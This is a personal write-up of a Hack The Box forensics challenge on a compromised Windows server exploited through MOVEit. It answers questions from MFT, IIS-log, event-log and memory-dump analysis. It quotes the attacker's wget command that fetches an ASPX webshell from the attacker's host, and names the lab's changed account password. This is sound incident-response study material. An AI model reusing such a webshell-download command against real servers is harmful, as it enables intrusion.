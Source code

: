 ```yaml
---
layout: default
title: I-like-to
---
```


### Summary: 

*I-like-to* is one of the first Sherlocks HTB has published. Despite being ranked as easy, it still provides a good learning value for a beginner. While working on this challenge, I have acquainted with MOVEit vulnerability, analysed KAPE artifacts, including MFT file, correlated data with raw hex, and answered relevant questions regarding the exploitation of the vulnerability.

### Challenge scenario: 

"We have unfortunately been hiding under a rock and do not see the many news articles referencing the recent MOVEit CVE being exploited in the wild. We believe our Windows server may be vulnerable and has recently fallen victim to this compromise. We need to understand this exploit in a bit more detail and confirm the actions of the attacker & retrieve some details, so we can implement them into our SOC environment. We have provided you with a triage of all the necessary artefacts from our compromised Windows server. PS: One of the artifacts is a memory dump, but we forgot to include the vmss file. You might have to go back to basics here..."

### Walkthrough:

1. *Name of the ASPX webshell uploaded by the attacker?*
	I parcelled MFT using MFTCmd and then opened it with TimeLine Explorer. The first question is to find ASPX web shell, I filtered files' extension to .aspx and the first file in the output had missing 0x30 ($Filename information) timestamp which indicates that it was likely uploaded from a different host. 
	
	Answer: move.aspx

2. *What was the attacker's IP address?*
	To find the attacker's IP address I had to find Microsoft Internet Information Service, open it with a text editor and find the uploaded file. Also, there are a lot of signs of network enumeration conducted by the threat actor. 
	
	It's worth noting that I've tried to find the IP address initially by multiplying the file's entry number by 1024 and converting it to hex, then looking for this offset number in the MFT hex dump (using HxD). Also, by running `Get-Item (file path) -Stream *` and `Get-Content`. Yet this method is more suitable for analysing Zone.Identifier data. 
	
	Answer: 10.255.254.3

3. *What user agent was used to perform the initial attack?*
	I continued investigating IIS logs and indicators of compromise for the exploit. I found one of them (machine2.aspx) in the logs and User Agent in the lines below. 
	
	Answer: Ruby

4. *When was the ASPX webshell uploaded by the attacker?*
	Using Timeline Explorer, I returned to the first file I had found, looked at its entry number and investigated its timestamps, then used MFTECmd (particular attention to $FILE_NAME or 0x30 information) to identify the time when the script was uploaded.
	
	Answer: 12/07/2023 11:24:30
	
	`.\MFTECmd -f 'C:\Users\glebas\Desktop\$MFT' --de 1293` ![Pasted image 20250210105019](https://github.com/user-attachments/assets/1c60bb9f-8981-43d5-b49f-947a0b88fa3c)

5. *The attacker uploaded an ASP webshell which didn't work, what is its filesize in bytes?*
	Filtered MFT entries to display the same day when 'move.aspx' was uploaded. The next entry is another malicious file 'moveit.asp' and it has file size specified in the entry.
	
	Answer: 1362

6. *Which tool did the attacker use to initially enumerate the vulnerable server?*
	Numerous attempts of port enumeration using nmap can be seen in IIS and DMZ_FTP log files
	
	Answer: nmap

7. *We suspect the attacker may have changed the password for our service account. Please confirm the time this occurred (UTC)*
	Using EvtxECmd I converted directory with Windows event logs (included logs IDs related to password change 4723, 4724... etc) into a CSV file, opened it with Timeline Explorer and found there service account password attempt with ID 4724.
	
	Answer: 12/07/2023 11:09:27

8. *Which protocol did the attacker utilize to remote into the compromised machine?*
	To identify internet protocol the adversary used to connect, I had to re-process evtx logs once again including all the events this time (with the thought of the future usage). Then, I filtered events 4624 that identify successful connections and using logon type 10 is typically mark of RDP connection.
	
	Answer: RDP

9. *Please confirm the date and time the attacker remotely accessed the compromised machine*
	Timestamp can be found in previous question.
	
	Answer: 12/07/2023 11:11:18

10. *What was the useragent that the attacker used to access the webshell?*
	The user agent can be found in IIS logs, in particular near malicious files with GET or POST requests.
	
	Answer: Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0

11. *What is the inst ID of the attacker?*
    I installed MySQL server and workbench to analyse moveit.sql file and found the ID among the entries. You shall look for attacker's nickname.
    
    Answer: 1234

12. What command was run by the attacker to retrieve the webshell?
	
	Answer: `wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx`

13. *What was the string within the title header of the webshell deployed by the TA?*
	To find a header I used command `strings "C:\Users\glebas\Desktop\I-like-to-27a787c5.vmem" | Select-String "move.aspx" -Context 20, 20` -- it allows to see 20 lines above and below from the target line (move.aspx) in this case.
	
	Answer: awen asp.net webshell

14. *What did the TA change the our moveitsvc account password to?*
	I found new password by conducting strings analysis of vmem file and with the search for "net user 'moveitsvc" because password follows it
	
	Answer: 5trongP4ssw0rd


